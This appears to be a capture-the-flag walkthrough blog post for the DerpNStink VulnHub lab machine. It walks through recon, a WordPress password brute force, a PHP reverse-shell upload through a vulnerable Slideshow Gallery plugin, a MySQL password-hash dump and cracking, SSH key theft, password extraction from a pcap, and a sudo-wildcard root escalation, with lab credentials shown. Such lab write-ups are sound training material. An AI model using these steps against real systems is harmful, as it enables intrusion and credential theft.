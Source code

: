 ```yaml
---
title: "DerpNStink - VulnHub"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-05-06 04:57:39 +05:30
categories: [Writeups, VulnHub]
img_path: /assets/img/writeups/derpnstink/
tags: [VulnHub, WordPress, MySQL]
render_with_liquid: false
---
```


## DerpNStink VulnHub Walkthrough

### Recon & Enumeration

- `sudo netdiscover -i eth0 -r 10.0.2.0/24` 
- DerpNStink IP: `10.0.2.8` 

#### Nmap

- `nmap -Pn -sS -p- -A 10.0.2.8`

  ```
  10.0.2.8:21/tcp => vsftpd 3.0.2
  10.0.2.8:22/tcp => OpenSSH 6.6.1p1 
  10.0.2.8:80/tcp => Apache httpd 2.4.7 
  ```

- In HTML source code: 
```
flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)
```

#### GoBuster

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.8 -t 60 -x txt
```

```
/weblog        (Status:301) [Size:304] [http://10.0.2.8/weblog/]
/php           (Status:301) [Size:301] [http://10.0.2.8/php/]   
/css           (Status:301) [Size:301] [http://10.0.2.8/css/]   
/js            (Status:301) [Size:300] [http://10.0.2.8/js/]    
/javascript    (Status:301) [Size:308] [http://10.0.2.8/javascript/]
/robots.txt    (Status:200) [Size:53]                                   
/temporary     (Status:301) [Size:307] [http://10.0.2.8/temporary/] 
/server-status (Status:403) [Size:288]
```
- `/weblog` redirected to `http://derpnstink.local/weblog`. So we will need to add it to the hosts file.
- `echo 10.0.2.8 derpnstink.local | tee -a /etc/hosts`
- Then visit `http://derpnstink.local/weblog`.
- Its a WordPress blog. 

---

### Exploitation

```
wpscan --url http://derpnstink.local/weblog -e at -e ap -e u
```

```
WordPress theme in use: twentysixteen
Location: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/
Last Updated: 2021-03-09T00:00:00.000Z
Readme: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/readme.txt
The version is out of date, the latest version is 2.4

Plugin(s) Identified:

slideshow-gallery
Location: http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/
Last Updated: 2019-07-12T13:09:00.000Z
The version is out of date, the latest version is 1.6.12
Found By: Urls In Homepage (Passive Detection)
Version: 1.4.6 (100% confidence)
Found By: Readme - Stable Tag (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt
Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt

User(s) Identified:
- admin
```

- We got a username: `admin`. Now to brute force for password:

```
wpscan --url http://derpnstink.local/weblog/ -U admin -P /usr/share/wordlists/rockyou.txt -t 60
```

```
Valid Combinations Found:
Username: admin, Password: admin
```

- Honestly, I should have just tried `admin:admin` before even running `wpscan` but, oh well.
- Go to `/weblog/wp-admin/` and log in with `admin` : `admin`
- Go to Slideshow, click on one of the available ones, in there, under Choose Image option, select a file to upload. Choose PHP reverse shell file (with IP and port changed to connect back to our Kali VM) and it will be accepted without even changing extension. 
- Or you can use this exploit to upload the shell since we already have user credentials: [WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload](https://www.exploit-db.com/exploits/34681).

```python
python wp_slideshow_exploit.py -t http://derpnstink.local/weblog -u admin -p admin -f php-shell.php
```

- Start a netcat listener: `nc -lvnp 1234`
- Then go back to Slideshow and click on the slideshow that has PHP reverse shell file and we will get a reverse shell as `www-data`. 
- `cd /var/www/html/weblog` and `ls -la` 
- We have read access to `wp-config.php` so `cat wp-config.php`

```
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');
```

- `mysql -u root -p` <span class="fat-arrow">=></span> `mysql` 
- `show databases;` 
- `use mysql;` 
- `show tables;` 
- `select * from user;` 
- DerpNStink MySQL Commands:

![DerpNStink MySQL Commands](derpnstink_mysql_commands.png){: w="300" h="400" }
_DerpNStink MySQL Commands_


- Dumping users & passwords from MySQL:

![Dumping Users & Passwords from MySQL](derpnstink_mysql_users_passwords.png){: w="600" h="400" }
_Dumping Users & Passwords from MySQL_

- And we get a few MySQL password hashes. Used [CrackStation](https://crackstation.net/) to crack them:

```
root = E74858DB86EBA20BC33D0AECAE8A8108C56B17FA = mysql
unclestinky = 9B776AFB479B31E8047026F1185E952DD1E530CB = wedgie57
phpmyadmin = 4ACFE3202A5FF5CF467898FC58AAB1D615029441 = admin
```

- Lets try `unclestinky : wedgie57` on user `stinky`. 
- `su stinky` <span class="fat-arrow">=></span> `wedgie57` and it works. 
- There is a `ftp` directory in `/stinky` and if we keep going in, there is a `key.txt` file which has `ssh` key for user `stinky` 

```
/home/stinky/ftp/files/ssh/ssh/ssh/ssh/ssh/ssh/ssh/key.txt
```

- But we can also get it from `/home/stinky/.ssh`
- `cd /home/stinky/.ssh` and start a python server with `python3 -m http.server 5959` and then get the `id_rsa` key from `derpnstink.local:5959/id_rsa` using a browser or via `wget`. 
- `chmod 600 id_rsa` and then log in via `ssh`: 
- `ssh -i id_rsa stinky@10.0.2.8` 
- `cd /home/stinky/Desktop && ls -la` 
- `cat flag.txt` 

```
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
```

- `cd /home/stinky/Documents && ls -la` there is a `derpissues.pcap` file. 
- `strings derpissues.pcap` to get the general idea of traffic recorded. 
- There are a few HTTP POST requests in there without SSL/TLS, thus, unencrypted. So we can start looking at them. Or we can `grep` for the username we already have: `mrderp`. I tried it both ways. 
- `strings derpissues.pcap | grep -n mrderp` 
- This gives 7 results but the first one itself reveals the password that was used while creating the account for `mrderp` and the second one reveals it again when it was used for logging in as `mrderp`. 

```
56710:action=createuser&_wpnonce_create-user=b250402af6&_wp_http_referer=%2Fweblog%2Fwp-admin%2Fuser-new.php&user_login=mrderp&email=mrderp%40derpnstink.local&first_name=mr&last_name=derp&url=%2Fhome%2Fmrderp&pass1=derpderpderpderpderpderpderp&pass1-text=derpderpderpderpderpderpderp&pass2=derpderpderpderpderpderpderp&pw_weak=on&role=administrator&createuser=Add+New+User
57149:log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

- The other method is to filter POST requests and to look for passwords in unencrypted/plain text parameters. 
- So to filter the `strings` results for just those POST requests: 
- `strings derpissues.pcap | grep POST` 
- It lists all the POST requests but we can filter out the others that we don't need and focus only on POST requests made to `/weblog/wp-login.php` 
- `strings derpissues.pcap | grep -A 20 "POST /weblog/wp-login.php"` 
- `grep -A 20` to print the next 20 lines that come after the expected result of `grep`. 
- Now there are only three such POST requests and the username and password payload being sent through them is in plain text. 

```
1: log=unclestinky%40derpnstink.local&pwd=wedgie57&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1c3
2: log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

- We already have `stinky`'s or `unclestinky`'s password: `wedgie57` and now we also have `mrderp`'s password: `derpderpderpderpderpderpderp` 
- `su mrderp` <span class="fat-arrow">=></span> `derpderpderpderpderpderpderp` and we are now logged in as `mrderp`! 
- `mrderp` : `derpderpderpderpderpderpderp` 

---

### Privilege Escalation

- `sudo -l` <span class="fat-arrow">=></span> `derpderpderpderpderpderpderp`

```
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

- If you `cd /home/mrderp/Desktop/ && ls`, there is a `helpdesk.log` file which has a pastebin link inside: `https://pastebin.com/RzK9WfGw`. This pastebin also tells us the same thing that `sudo -l` says. 
- So back to privilege escalation, there is no `/home/mrderp/binaries/` directory so lets create one. 
- `cd /home/mrderp` and then `mkdir binaries && cd binaries` 
- Then create a bash script (any script/executable will work here) that we can execute with `sudo`. 
- `touch derpy.sh` 
- `echo /bin/bash > derpy.sh` 
- Then `chmod +x derpy.sh` and then execute it with: 
`sudo ./derpy.sh` and we are now `root`! 
- `whoami` <span class="fat-arrow">=></span> `root` 
- `cd /root/Desktop && ls -la` 
- `cat flag.txt` 

```
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!
Hit me up on twitter and let me know your thoughts!
@securekomodo
```

<!-- ### Possible Kernel Exploit

- `uname -a` 
```
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
- Kernel exploit could be possible. Try kernel exploit later. 
 -->

